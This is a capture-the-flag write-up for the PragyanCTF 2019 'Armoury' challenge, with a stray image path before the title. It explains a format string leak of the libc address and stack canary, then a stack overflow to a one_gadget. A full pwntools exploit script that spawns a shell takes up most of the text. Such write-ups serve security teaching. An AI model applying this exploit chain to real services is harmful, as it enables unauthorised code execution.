 # PragyanCTF 2019 Armoury

```
[*] '/mnt/hgfs/Shared/armoury'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

FULL RELRO, Canary, NX, PIE.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // eax
  signed int v5; // [rsp+Ch] [rbp-34h]
  char buffer_1[15]; // [rsp+11h] [rbp-2Fh]
  char buffer_2[24]; // [rsp+20h] [rbp-20h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  initialize();
  puts("*******Rifle Database**************");
  v5 = 2;
  while ( 1 )
  {
    v3 = v5--;
    if ( v3 <= 0 )
      break;
    puts("\nEnter the name of Rifle to get info:");
    __isoc99_scanf("%s", buffer_1);
    if ( !strcmp(buffer_1, "Exit") )
      break;
    puts("\n----------------DATA-------------------");
    printf(buffer_1, "Exit");
    giveInfo(buffer_1);
    puts("---------------------------------------");
  }
  puts("Would you like to give us some feedback:");
  __isoc99_scanf("%s", buffer_2);
  puts("Thank you");
  return 0;
}
```

Nothing special. Get user input and print it. Don't care about giveInfo(). The function simply searches user input in the list of rifles and print the description of the rifle.

This binary has format string vulnerability in `printf(buffer_1, "Exit");`

```
*******Rifle Database**************

Enter the name of Rifle to get info:
%p

----------------DATA-------------------
0x7fda78a847e3:
Sorry... We dont have any information about %p
---------------------------------------
```

We can get libc leak from the first %p of format string.

```
*******Rifle Database**************

Enter the name of Rifle to get info:
AAAA%p%p%p%p%p%p%p%p

----------------DATA-------------------
AAAA0x7f1e5d1657e30x7f1e5d1668c00x7f1e5d0962a40x7f1e5d16b5000xa0x10x1fe37dced0x25702541414141a0:
Sorry... We dont have any information about AAAA%p%p%p%p%p%p%p%p
```

and data in stack is revealed from 8th %p, canary from 13th %p. Since we know the canary value, we can directly overflow the stack and bypass canary check without destroying canary.

Scenario is,

1. Libc, canary leak from first procedure
2. buffer overflow, overwrite return address with one_gadget
3. recovery canary value at feedback input

```
from pwn import *

p = process('./armoury')
bin = ELF('./armoury')

one_gadget_offset = 0xe42ee # 0x4345e 0x434b2 0xe42ee

# gdb.attach(p, '')

# Format String, Libc leak
p.sendlineafter('get info:\n', '%p%13$p%17$p')
p.recvuntil('---\n')
result = p.recvuntil(':').split('0x')
log.info(result)
libc_addr = int(result[1], 16) - 0x1b87e3
canary = int(result[2], 16)
one_gadget_addr = libc_addr + one_gadget_offset
log.info('Libc Addr: ' + hex(libc_addr))
log.info('Canary Value: ' + hex(canary))
log.info('One_gadget Addr: ' + hex(one_gadget_addr))

# Overwrite return addr with one_gadget
payload = 'A' * 39 + p64(canary | 0xff) + 'BBBBBBBB'
payload += p64(one_gadget_addr)
p.sendlineafter('get info:\n', payload)
payload = 'A' * 24
p.sendlineafter('feedback:\n', payload)

p.interactive()
```
